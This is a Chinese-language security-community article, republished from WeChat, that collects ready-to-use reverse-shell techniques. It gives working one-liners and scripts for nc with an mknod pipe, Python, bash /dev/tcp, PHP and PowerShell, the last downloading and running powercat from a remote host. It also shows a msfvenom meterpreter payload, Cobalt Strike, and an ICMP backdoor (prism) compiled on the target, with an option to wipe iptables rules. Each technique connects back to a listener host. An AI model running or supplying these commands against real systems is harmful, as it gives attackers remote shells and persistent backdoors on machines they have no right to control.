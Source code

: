 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/gswjUAkuAR1VFlks6rUKZw)

**作者：伟大宝宝** 编辑：白帽子社区运营团队  

  

  

    " 前言：为建设一个更加具有交流意义以及更开放的安全社区，白帽子社区公众号现在开始有偿收稿啦！更多具体信息请在公众号中回复 “投稿” 了解！

        白帽子社区 CTF 靶场（BMZCTF）已经开放，欢迎各位访问，在这里练习、学习，BMZCTF 全身心为网络安全赛手提供优质学习环境，链接（http://www.bmzclub.cn/）

"    

* * *

**本次整理了一些常用的反弹 shell 手段，供各位参考。**

![](https://mmbiz.qpic.cn/mmbiz_png/HQn53QYo2G7y8QibS9fFJ9YsS8Swpos3PVKlVFeB4odJ6vtHpd0LycDiaDYEj4n8ZD8DvtuAcgaP7OQfia9OD67gw/640?wx_fmt=png)

通过 mknod 创建管道反弹 shell

在 linux 下的 nc 中我们使用 -e 来反弹 shell 的时候会发现不存在 -e 参数。

![](https://mmbiz.qpic.cn/mmbiz_png/HQn53QYo2G5JUlowF5DoicMziaaMibpOwdT5ChcjxV1icOKmI5GPbFBlibdtTgeeFFolk70WwibolyjIzlV9NYicYKTBQ/640?wx_fmt=png)

在这种情况下可以通过创建管道，然后将默认 shell 环境的输入重定向给刚才创建的管道，最后将输出重定向到管道中。

```
mknod /tmp/bmz p
/bin/bash 0</tmp/bmz | nc 192.168.88.131 1234 1>/tmp/bmz
```

![](https://mmbiz.qpic.cn/mmbiz_png/HQn53QYo2G5JUlowF5DoicMziaaMibpOwdT14oicbzCicPkvRQ6R8QGG5ZRo5r51KB9Q3EgnbuhEyvaqcfIgJFcNGbQ/640?wx_fmt=png)

我们已经可以接收到反弹的 shell

![](https://mmbiz.qpic.cn/mmbiz_png/HQn53QYo2G5JUlowF5DoicMziaaMibpOwdTUdJWC4H9efazEntnK9EAqFIYygUdeTAJZjWhl9V6vRcppoIoFaf55A/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/HQn53QYo2G7y8QibS9fFJ9YsS8Swpos3PVKlVFeB4odJ6vtHpd0LycDiaDYEj4n8ZD8DvtuAcgaP7OQfia9OD67gw/640?wx_fmt=png)

通过 Python 反弹 shell

同样我们也可以尝试使用 python，因为 linux 默认安装了 python

编写脚本

```
import socket,subprocess,os
s =socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(( "192.168.88.131" , 1234 ))
os.dup2(s.fileno(), 0 )
os.dup2(s.fileno(), 1 )
os.dup2(s.fileno(), 2 )
p = subprocess.call([ "/bin/bash" , "-i" ])
```

运行即可接收到 shell

![](https://mmbiz.qpic.cn/mmbiz_png/HQn53QYo2G5JUlowF5DoicMziaaMibpOwdTtCrnnynCHyCia7wGKU5QtOjSBwqFzRhljyZ4QAo2sKJnpJKjuh9Zmgw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/HQn53QYo2G7y8QibS9fFJ9YsS8Swpos3PVKlVFeB4odJ6vtHpd0LycDiaDYEj4n8ZD8DvtuAcgaP7OQfia9OD67gw/640?wx_fmt=png)

通过 bash 反弹 shell

这是最为常用的一个反弹的方法

```
bash -i >& /dev/tcp/ip_address/port 0>&1
```

  

![](https://mmbiz.qpic.cn/mmbiz_png/HQn53QYo2G5JUlowF5DoicMziaaMibpOwdTAriaQ1LN8aGpFibIibiaUnlD6dFFlJjqAoeRv5ribiaU5lU23YNQEELVaILA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/HQn53QYo2G7y8QibS9fFJ9YsS8Swpos3PVKlVFeB4odJ6vtHpd0LycDiaDYEj4n8ZD8DvtuAcgaP7OQfia9OD67gw/640?wx_fmt=png)

通过 ICMP 反弹 shell

如果目标对流量协议进行了限制，也可以尝试采用 ICMP 协议进行反弹 shell。因为通常情况下不会对 ICMP 协议进行封禁。

首先下载 prism**（公众号首页回复：“prism” 获取下载地址）**

下载完后会有这几个文件

![](https://mmbiz.qpic.cn/mmbiz_png/HQn53QYo2G5JUlowF5DoicMziaaMibpOwdT7ntNWMbGjT4cqI1icv6bAcjfk62T9ERkSiaW1MoaglialhfS0PIJUA1rA/640?wx_fmt=png)

其中 prism.c 是我们需要编译的后门文件，sendPacket.py 用来触发后门，但是后门文件在我们编译前需要进行一下配置。

重点关注这几行

![](https://mmbiz.qpic.cn/mmbiz_png/HQn53QYo2G5JUlowF5DoicMziaaMibpOwdTB46EhtCJR8312quZJjlHeVPKZI3e46rcksFu9KllEgvcJl5KyoCRxg/640?wx_fmt=png)

其中

```
define REVERSE_HOST用来设置监听主机的IP地址
define REVERSE_PORT用来设置监听的端口
```

设置好以后上传到目标主机进行编译

编译的命令：

```
gcc <..OPTIONS..> -Wall -s -o prism prism.c
```

其中 OPTIONS 包含以下选项

```
-DDETACH         //后台运行
-DSTATIC          //只用STATIC模式（默认是ICMP模式）
-DNORENAME   //不再重命名进程名
-DIPTABLES     //清除所有iptables规则表项
```

使用

```
gcc -DDETACH -Wall -s -o prism prism.c
```

编译后门  

![](https://mmbiz.qpic.cn/mmbiz_png/HQn53QYo2G5JUlowF5DoicMziaaMibpOwdTJKWt3yuvDDXxPL8iabZcZgsIibszYnhypJwZaI4ENVHFM0kSIDWbdo3Q/640?wx_fmt=png)

之后运行编译好的后门文件。

然后去运行

这个时候去运行我们的 sendPacket.py

![](https://mmbiz.qpic.cn/mmbiz_png/HQn53QYo2G5JUlowF5DoicMziaaMibpOwdT0Fn9xvxGntj2mYKWdbuoJyczNtbwljKBqqicZcQWGrq1icwwYCkeiadXA/640?wx_fmt=png)

监听主机便会获取到反弹的 shell

![](https://mmbiz.qpic.cn/mmbiz_png/HQn53QYo2G5JUlowF5DoicMziaaMibpOwdTWssSibfFqEeFEEgzymp8s2eaSchQ4MQ7ckvbpdjp75toH67XGSL5Wibw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/HQn53QYo2G7y8QibS9fFJ9YsS8Swpos3PVKlVFeB4odJ6vtHpd0LycDiaDYEj4n8ZD8DvtuAcgaP7OQfia9OD67gw/640?wx_fmt=png)

PowerShell 反弹 shell

Windows 下的 powercat 反弹 shell

下载 powercat**（公众号回复：“powercat” 下载）**

命令格式

```
powershell IEX (New-ObjectSystem.Net.Webclient).DownloadString('http://192.168.1.38/powercat.ps1'); 
powercat -c ip_addr -p port -e cmd
```

  

![](https://mmbiz.qpic.cn/mmbiz_png/HQn53QYo2G5JUlowF5DoicMziaaMibpOwdT47VtMoHePiatxqMB1e4p6n71ic9f8p5U9YTXkgAgTkqeLMF1X1PibHZ4w/640?wx_fmt=png)

监听端获得反弹的 shell

![](https://mmbiz.qpic.cn/mmbiz_png/HQn53QYo2G5JUlowF5DoicMziaaMibpOwdTmKrRicTQbXdZkLq99KvXgib4icNCwyDElw68uR8wUwyEOiaIyOgvzR7lCQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/HQn53QYo2G7y8QibS9fFJ9YsS8Swpos3PVKlVFeB4odJ6vtHpd0LycDiaDYEj4n8ZD8DvtuAcgaP7OQfia9OD67gw/640?wx_fmt=png)

MSF 生成后门反弹 shell

msf 以及 CS 的反弹 shell

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=195.1.7.23 LPORT=8888 -f exe > shell.exe
```

生成木马后使用 exploit/multi/handler 模块监听，选择对应后门的 payload，配置好参数后开启监听。

在目标服务器运行生成的后门文件后就可以上线。

![](https://mmbiz.qpic.cn/mmbiz_png/HQn53QYo2G7y8QibS9fFJ9YsS8Swpos3PVKlVFeB4odJ6vtHpd0LycDiaDYEj4n8ZD8DvtuAcgaP7OQfia9OD67gw/640?wx_fmt=png)

通过 Cobaltstrike 反弹 shell

比较简单直接截图

![](https://mmbiz.qpic.cn/mmbiz_png/HQn53QYo2G5JUlowF5DoicMziaaMibpOwdTQ9ibrXic9QfoJbBfjkPsrUHcibhQxISZNibAXV5kJ5DYicqmIfbAOmCQjMA/640?wx_fmt=png)

生成后门后上传到目标主机，运行后即可上线。

通过 PHP 反弹 shell

命令如下

```
php -r '$sock=fsockopen("192.168.1.38",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

![](https://mmbiz.qpic.cn/mmbiz_png/HQn53QYo2G5JUlowF5DoicMziaaMibpOwdTap2UX8YttKAyfwpytYs2yaOp7qcJYxyN7f3xzBlSm9rSAJZzkA93Bg/640?wx_fmt=png)

往期精彩文章

  

  

  

  

**【往期推荐】**  

[未授权访问漏洞汇总](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247484804&idx=2&sn=519ae0a642c285df646907eedf7b2b3a&chksm=ea37fadedd4073c87f3bfa844d08479b2d9657c3102e169fb8f13eecba1626db9de67dd36d27&scene=21#wechat_redirect)

[【内网渗透】内网信息收集命令汇总](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485796&idx=1&sn=8e78cb0c7779307b1ae4bd1aac47c1f1&chksm=ea37f63edd407f2838e730cd958be213f995b7020ce1c5f96109216d52fa4c86780f3f34c194&scene=21#wechat_redirect)  

[【内网渗透】域内信息收集命令汇总](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485855&idx=1&sn=3730e1a1e851b299537db7f49050d483&chksm=ea37f6c5dd407fd353d848cbc5da09beee11bc41fb3482cc01d22cbc0bec7032a5e493a6bed7&scene=21#wechat_redirect)  

[记一次 HW 实战笔记 | 艰难的提权爬坑](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247484991&idx=2&sn=5368b636aed77ce455a1e095c63651e4&chksm=ea37f965dd407073edbf27256c022645fe2c0bf8b57b38a6000e5aeb75733e10815a4028eb03&scene=21#wechat_redirect)

[【超详细】Microsoft Exchange 远程代码执行漏洞复现【CVE-2020-17144】](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485992&idx=1&sn=18741504243d11833aae7791f1acda25&chksm=ea37f572dd407c64894777bdf77e07bdfbb3ada0639ff3a19e9717e70f96b300ab437a8ed254&scene=21#wechat_redirect)

[【超详细】Fastjson1.2.24 反序列化漏洞复现](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247484991&idx=1&sn=1178e571dcb60adb67f00e3837da69a3&chksm=ea37f965dd4070732b9bbfa2fe51a5fe9030e116983a84cd10657aec7a310b01090512439079&scene=21#wechat_redirect)

[【超详细】CVE-2020-14882 | Weblogic 未授权命令执行漏洞复现](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485550&idx=1&sn=921b100fd0a7cc183e92a5d3dd07185e&chksm=ea37f734dd407e22cfee57538d53a2d3f2ebb00014c8027d0b7b80591bcf30bc5647bfaf42f8&scene=21#wechat_redirect)  

[【奇淫巧技】如何成为一个合格的 “FOFA” 工程师](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485135&idx=1&sn=f872054b31429e244a6e56385698404a&chksm=ea37f995dd40708367700fc53cca4ce8cb490bc1fe23dd1f167d86c0d2014a0c03005af99b89&scene=21#wechat_redirect)
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

_**走过路过的大佬们留个关注再走呗**_![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTEATexewVNVf8bbPg7wC3a3KR1oG1rokLzsfV9vUiaQK2nGDIbALKibe5yauhc4oxnzPXRp9cFsAg4Q/640?wx_fmt=png)

**往期文章有彩蛋哦****![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTHtVfEjbedItbDdJTEQ3F7vY8yuszc8WLjN9RmkgOG0Jp7QAfTxBMWU8Xe4Rlu2M7WjY0xea012OQ/640?wx_fmt=png)**

![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTECbvcv6VpkwD7BV8iaiaWcXbahhsa7k8bo1PKkLXXGlsyC6CbAmE3hhSBW5dG65xYuMmR7PQWoLSFA/640?wx_fmt=png)

**分享前辈知识，一起学习共同进步！！如侵权请私聊公众号删文![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTHvn9mkHr2IDq5kEwPCgRujhTODPKjATDtE4qk0CydBmWFTcpib456YNCEvicv93MB9diavFXYqJV0UA/640?wx_fmt=png)**